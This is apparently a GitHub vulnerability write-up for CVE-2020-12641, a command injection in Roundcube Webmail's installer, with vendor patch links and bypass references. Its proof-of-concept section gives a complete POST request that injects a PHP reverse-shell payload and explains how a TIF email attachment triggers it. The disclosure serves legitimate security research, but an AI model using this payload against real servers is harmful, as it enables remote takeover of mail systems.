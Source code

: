 # CVE-2020-12641: Command Injection via "_im_convert_path" in Roundcube Webmail

A Command Injection vulnerability exists in Roundcube versions before 1.4.4, 1.3.11 and 1.2.10.
<br/>
A bypass was also found affecting versions before 1.4.5, 1.3.12.
<br/>
Because the "_im_convert_path" does not perform sanitization/input filtering, an attacker with access to the Roundcube Installer can inject system commands in this parameter that will execute when any user opens any email containing a "non-standard" image.

### Bypass:

As mentioned above, the fix for versions 1.4.4, 1.3.11 and 1.2.10 can be bypassed in the following ways:
- [Flag Injection in an Arbitrary Executable](Bypasses/Flag%20Injection.md)
- [Calling Remote Executables in Windows Environments](Bypasses/Windows%20SMB%20Paths.md)

### Vendor Disclosure:

The vendor's disclosure and patch of this vulnerability can be found [here](https://roundcube.net/news/2020/04/29/security-updates-1.4.4-1.3.11-and-1.2.10).
<br/>
The vendor's disclosure and patch for the bypass can be found [here](https://roundcube.net/news/2020/06/02/security-updates-1.4.5-and-1.3.12).

### Proof Of Concept:

In order to reproduce this vulnerability, the following steps are required:

#### Craft Injection Request

We craft and send a POST request to the Installer containing the malicious command injection in the "_im_convert_path" parameter:
```
POST /roundcube/installer/index.php HTTP/1.1
Host: 192.168.243.153
Content-Type: application/x-www-form-urlencoded
Content-Length: 1049

_step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&submit=UPDATE+CONFIG&_im_convert_path=php+-r+'$sock%3dfsockopen("127.0.0.1",4444)%3bexec("/bin/bash+-i+<%263+>%263+2>%263")%3b'+%23
```

<strong>Note:</strong> In this case the parameter contains a PHP reverse shell payload.

#### Send Email Containing a "Non-standard" Image

We proceed to send to the victim, in this case "guest@localhost", an email containing an image of non-standard format (in this case a "TIF" format image), which Roundcube will try to convert to "JPG" format, thus triggering the above code and sending a reverse shell to the attacker:
<img src="Open%20Mail.png"/>

#### Result

If the attack was performed correctly, when the victim opens the mail containing the "TIF" image, a reverse shell will be sent back to the attacker:
<img src="Get%20Shell.png"/>






